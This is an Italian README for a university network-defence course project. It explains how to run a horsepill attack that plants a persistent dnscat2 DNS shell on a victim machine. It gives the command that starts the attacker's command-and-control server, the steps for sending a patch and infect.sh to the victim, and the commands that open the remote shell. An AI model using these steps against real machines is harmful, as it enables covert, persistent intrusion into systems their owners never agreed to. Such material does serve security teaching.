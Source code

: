# Network and System Defence project
## Alessandro Chillotti (mat. 0299824)

## Traccia del progetto (traduzione)
È richiesto produrre un payload (utilizzando qualunque vettore) che è in grado di installare una DNS shell (e.g. guardare [qui](https://github.com/sensepost/DNS-Shell)) utilizzando un horsepill attack. Il payload deve essere in grado di sopravvivere agli update del kernel.

## Come effettuare l'attacco
### Configurazione del server dnscat2
È necessario mettere up and running un server `dnscat2` e per fare questo è necessario eseguire i seguenti comandi:

1. Effettuare la clone del [repository](https://github.com/iagox86/dnscat2.git) di dnscat2 e seguire le indicazioni per la configurazione dell'ambiente
2. Spostarsi all'interno della directory `server`
3. Eseguire il seguente comando
```[bash]
bundle exec ruby dnscat2.rb --dns 'host=xxx.xxx.xxx.xxx,port=53531'
```
### Preparazione dell'attacco
Sulla macchina di lavoro è necessario configurare correttamente il [file](horsepill-attack.patch) di patch, ovvero bisogna aggiornare:

- l'indirizzo IP della macchina sulla quale connetersi;
- la secret che verrà fornita nel momento in cui il server `dnscat2` sarà up and running.

Una volta che la patch è configurata correttamente, dovrà essere inviata alla macchina vittima insieme al file [infect.sh](infect.sh).
### Esecuzione sulla macchina vittima
Una volta che la macchina vittima è in possesso dei file [horsepill-attack.patch](horsepill-attack.patch) e [infect.sh](infect.sh) bisogna eseguire il seguente comando:
```[bash]
./infect.sh ABSOLUTE_PATH_INITRD ABSOLUTE_PATH_PATCH
```
### Shell sulla macchina host
Al termine dell'esecuzione dello script [infect.sh](infect.sh) verrà effettuato il reboot della macchina vittima e, una volta completato, si noterà nel processo server di `dnscat2` una nuova connessione.

Una volta ricevuta la connessione è necessario digitare il comando `window -i 1` e poi il comando `shell`. A questo punto, sarà generata una nuova shell e con il comando `window -i 2` si potrà gestire la shell sh.